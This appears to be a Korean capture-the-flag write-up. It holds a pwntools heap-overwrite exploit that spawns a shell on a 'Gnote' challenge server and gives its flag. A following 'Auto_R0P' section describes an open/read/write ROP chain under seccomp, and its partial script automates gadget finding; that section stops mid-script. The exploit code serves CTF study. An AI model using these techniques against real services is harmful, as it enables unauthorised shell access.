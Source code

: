 ```
from pwn import *

def add(num,data):
	p.sendlineafter("> ","1")
	p.recvuntil(": ")
	stack = int(p.recv(10),16)
	p.sendlineafter(") : ",str(num))
	p.sendlineafter(": ",data)
	return stack

def delete(num):
	p.sendline("2")
	p.sendlineafter(") : ",str(num))
	
def edit(num,data):
	p.sendlineafter("> ","3")
	p.sendlineafter(") : ",str(num))
	p.sendlineafter(": ",data)

p = remote("13.124.244.98",7777)
#p = process("./Gnote")
e = ELF("./Gnote")
context.log_level='debug'
bin_sh = 0x0804867B
A = 0x0804B084

stack = add(1,"a"*4)
stack = add(2,"a"*4)
edit(1,p32(0)*4+p32(stack+8)+p32(A))

delete(2)
edit(1,"A"*4+p32(bin_sh))

p.interactive()
```

FLAG : H1, I want 2 trav3l comf0rtably... bye, see u later…

## Auto_R0P - Pwnable 200pt

주어진 nc서버로 접속해보면 flag는 /flag안에 있고, binary가 base64로 encoding되어 있다고 알려준다. 처음에 풀 때는 이 binary가 고정인줄 알았는데, remote에서 계속 페이로드가 작동하지 않아서 문제 제목이 Auto_R0P인 것을 보고 그때서야 binary가 계속 바뀌는 것을 알 수 있었다.

주어진 binary를 base64 decoding한 뒤 바이너리를 보니 그냥 평범한 rop였다. 다만 문제점이 있다면 seccomp 함수를 이용해서 정해논 syscall이 외에 다른 syscall은 사용하지 못하게 해놓았다. 쓸 수 있는 syscall을 보니 open read write를 사용할 수 있었다. flag의 위치를 알고 있으므로 그냥 rop 해주면된다. 다만 주의할 점은 binary가 remote할 때마다 바뀌므로 bufsize와 gadget들의 위치를 구한다음에 동적으로 익스해주면된다.

python 의 subprocess 모듈을 이용해서 objdump와 같은 명령어들을 실행시켰다.

```
from pwn import *
import subprocess,base64

p = remote("13.209.132.255",8888)

def binary_make():
	p.recvuntil("[*] binary encoded with base64.\n")
	binary = p.recvuntil("\n").decode("base64")
	open("rop","w").write(binary)
	bufsize = subprocess.check_output("objdump -d ./rop -M intel | grep 'lea'",shell=True)
	prdi = subprocess.check_output("rp-lin-x64 -f ./rop -r 4 | grep 'pop rdi ;'",shell=True)
	prsir15 = subprocess.check_output("rp-lin-x64 -f ./rop -r 4 | grep 'pop rsi ; pop r15 ;'",shell=True)
	prdi = int(prdi[prdi.find("0x"):19],16)
	prsir15 = int(prsir15[prsir15.find("0x"):19],16)
```